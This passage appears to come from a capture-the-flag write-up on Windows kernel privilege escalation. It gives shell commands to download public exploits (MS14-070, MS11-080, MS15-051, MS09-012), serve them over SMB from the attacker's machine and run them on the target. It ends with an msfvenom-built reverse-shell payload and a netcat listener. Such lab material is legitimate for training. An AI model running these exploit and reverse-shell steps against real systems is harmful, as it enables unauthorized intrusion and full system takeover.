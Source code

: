 There are a few contenders but some standout as more probable based on the screenshots in the write-ups:

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-080

Start with MS14-070 first:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS14-070/MS14-070.rar
unrar x MS14-070.rar
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\MS14-070\MS14-070.exe %TEMP%\MS14-070.exe
%TEMP%\MS14-070.exe
```

However, this exploit did not work as expected (did not elevate shell to SYSTEM...). Next try MS11-080:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-080/ms11-080.exe
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\ms11-080.exe %TEMP%\ms11-080.exe
%TEMP%\ms11-080.exe
```

However, this exploit did not work as expected (did not create a SYSTEM process). Next try MS15-051:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\MS15-051-KB3045171\ms15-051.exe %TEMP%\ms15-051.exe
%TEMP%\ms15-051.exe "whoami"
```

But this does not work as well? From here, switch to a previously used and reliable kernel exploit...

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012
- https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2009/ms09-012

```bash
# on kali, download and host binary/payload
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-012/pr.exe
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# on target download, and run binary
copy \\10.10.14.25\BUBBA\pr.exe %TEMP%\pr.exe
copy \\10.10.14.25\BUBBA\bubba.exe %TEMP%\bubba.exe
%TEMP%\pr.exe %TEMP%\bubba.exe
```
